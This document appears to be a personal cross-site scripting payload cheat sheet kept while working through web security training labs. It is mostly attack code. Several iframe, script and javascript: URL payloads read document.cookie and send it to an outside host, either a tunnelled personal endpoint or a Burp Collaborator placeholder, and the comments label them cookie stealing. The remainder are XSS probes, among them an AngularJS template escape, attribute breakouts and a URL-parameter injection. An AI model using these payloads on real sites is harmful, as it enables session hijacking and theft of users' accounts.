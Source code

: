 |||||||||||||||||||||||||||||||||||||||||||||||||||||
<iframe src="javascript:var i=' ' + document.cookie; alert(i); fetch('http://pip3lee101-64604.portmap.host:64604/?sam')">


for cookia stelling
<iframe src="javascript:let i=new Image;i.src='http://pip3lee101-64604.portmap.host:64604/?lee101'+document.cookie; console.log(document.cookie);" >

<iframe src="javascript:fetch('http://pip3lee101-64604.portmap.host:64604/?lee101'+document.cookie', {
method: 'GET',
mode: 'no-cors',
body:document.cookie
}); alert(document.cookie);" >


<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>

for cookia stelling herf
javascript:fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});




for seperate html page
<iframe src="https://0a97007b03b5c853c0631f0600af003c.web-security-academy.net/" onload="this.src+='<img src=x onerror=print()>'"></iframe>



|||||||||||||||||||||||||||||||||||||||||||||||||||||
html entities test ===>
&#x6c;&#x65;&#x65;&#x31;&#x30;&#x31;

for anchor href inputs this payload to store <a src="javascript:alert(1)">website</a> ++++===>
javascript:alert(1)


||||||||||||||||||||||||||||||||||||||||||||||||||||||
for testing =====>
<iframe src="javascript:alert('xss');" >
"><svg onload=alert(document.cookie);>
<svg onload=alert(document.cookie);>
"onmouseover="alert('xss')
'-alert(1)-'
{{$on.constructor('alert(1)')()}}
\"-alert(1)}//
<><img src=1 onerror=alert(1)>

||||||||||||||||||||||||||||||||||||||||||||||||||||||
special url payloads =========>
&storeId="></select><img%20src=1%20onerror=alert(1)>
